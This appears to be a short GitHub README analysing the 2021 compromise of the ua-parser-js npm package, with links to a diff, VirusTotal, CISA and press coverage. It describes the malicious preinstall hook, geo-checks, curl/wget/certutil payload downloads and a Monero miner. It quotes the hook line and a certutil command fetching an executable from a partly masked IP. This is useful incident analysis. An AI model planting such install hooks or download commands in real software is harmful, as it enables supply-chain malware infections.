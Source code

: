 # ua-parser-vuln

**Data Sources:**

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945

Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE

CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js

Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/


Package.json has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added, to call the new attack scripts.
preinstall.js looks to see Windows, mac, linux, and call the correct file

On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing.

Else, it pulls down  jsextention from a remote IP in the Latvia GEO

**If Windows:**
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

